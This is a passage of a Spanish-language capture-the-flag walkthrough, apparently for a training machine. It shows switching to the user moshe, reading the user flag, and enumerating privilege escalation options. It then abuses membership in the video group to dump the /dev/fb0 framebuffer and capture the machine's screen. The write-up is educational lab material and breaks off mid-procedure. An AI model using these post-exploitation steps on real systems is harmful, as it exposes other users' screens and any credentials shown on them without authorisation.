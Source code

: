 ```bash
su moshe
Password:

whoami
#Output
moshe

cat /home/moshe/user.txt
```

Ahora que tenemos la flag, pasamos a la parte **PrivEsc**
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root
uname -a
lsb_release -a
sudo -l
id
```

Aqui llama el atencion el grupo video. Pero aqui primero la idea es ver que grupo tiene este mismo grupo por script.

```bash
groups
for group in $(groups); do echo "El grupo $group"; done
for group in $(groups); do echo -e "\n[+] Listando archivos del sistema con grupo $group asignado:\n"; find / \-group $group 2>/dev/null; done
```

Aqui vemos que el fichero 
```bash
 /dev/fb0 
```
 esta en el grupo **video**. Este servicio permite hacer una captura de pantalla de la maquina.

1. Recoger las proporciones de la pantalla

    ```bash
    cd /
    find \-name virtual_size 2>/dev/null
    cat ./sys/devices/pci0000:00/0000:00:0f.0/graphics/fb0/virtual_size
    #Output
    1176.885
    ```

1. Captura de la pantalla

    ```bash
    cd /tmp
    cat /dev/fb0 > Captura
    du -hc Captura
    file Captura
    ```
